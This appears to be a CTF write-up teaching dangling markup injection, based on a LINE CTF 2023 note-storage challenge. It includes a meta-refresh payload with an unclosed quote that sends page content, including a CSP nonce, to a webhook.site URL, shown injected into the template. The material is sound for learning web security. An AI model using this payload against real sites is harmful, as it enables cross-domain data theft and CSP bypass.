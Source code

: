 # Dangling markup injection

## Definition

> Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible. - by PortSwigger

## Example

I learned this trick in an another-secure-store-note of LINECTF 2023. It was very expressive.

````html
```html
<div class=main>
  <h1>📕 <%- name %> secured notes 📕</h1>
  <div>
      ... 
  </div>
  <div class=main>
      Can you tell me a secret? It will securely kept in "localStorage" of this page.
      <textarea id=secret></textarea>
      <input id=submit_storage type=submit value=Store>
      <script nonce=<%= nonce %> type='application/javascript'>
        const btn = document.getElementById('submit_storage');
        btn.addEventListener('click', (e) => {
          localStorage.setItem('secret', document.getElementById('secret').value);
          const resp = document.getElementById('response');
          resp.innerText = 'Successfully stored secret';
          setTimeout(() => resp.innerText = '', 1500);
        });
      </script>
      <p id=response></p>
  </div>
  <%- include('footer.ejs') %>
</div>
```
````

I have to get a nonce value to satisfy Content Security Policy. The part `<%- name %>` is possible to insert html code.&#x20;

````html
```html
<script nonce=<%= nonce %> type='application/javascript'>  
```
````

We can see that the nonce is set without a single or double quotation. So, If we insert html code like `<meta http-equiv="refresh" content='1; url=https://webhook.site/asdf` , we can send the contents before the first single quotation of type attribute in script tag to an attacker site.&#x20;

````html
```html
<%- include('header.ejs') %>
<body>
  <div class=content>
    <ul>
      <li><a class=active href='/'>Home</a></li>
      <li><a href=/bot>Talk to admin</a></li>
    </ul>
    <img src=csp.gif>

    <div class=main>
      <h1>📕 <meta http-equiv="refresh" content='1; url=https://webhook.site/395eb18c-6d82-4d05-9b50-369dd6bac054 secured notes 📕</h1>
      <div>
        <form method=POST>
          Wanna change your name?
          <input class=change-name type=text name=name placeholder="🐻 Brown">
          <input type=hidden name=csrf id=_csrf>
          <input type=submit value=Submit>
          <p class=red id=error></p>
          <p class=green id=message></p>
        </form>
      </div>
    </div>

    <div class=main>
      Can you tell me a secret? It will securely kept in "localStorage" of this page.
      <textarea id=secret></textarea>
      <input id=submit_storage type=submit value=Store>
      <script nonce=<%= nonce %> type='application/javascript'>
        const btn = document.getElementById('submit_storage');
        btn.addEventListener('click', (e) => {
          localStorage.setItem('secret', document.getElementById('secret').value);
          const resp = document.getElementById('response');
          resp.innerText = 'Successfully stored secret';
          setTimeout(() => resp.innerText = '', 1500);
        });
      </script>
      <p id=response></p>
    </div>
  </div>
  <%- include('footer.ejs') %>
</body>
```
````

However, chrome browser blocks HTTP URLs with "<" and "\n" character. So our dangling markup will not work in chrome based browser. It works in Firefox browser.

## References

1. [https://portswigger.net/web-security/cross-site-scripting/dangling-markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)

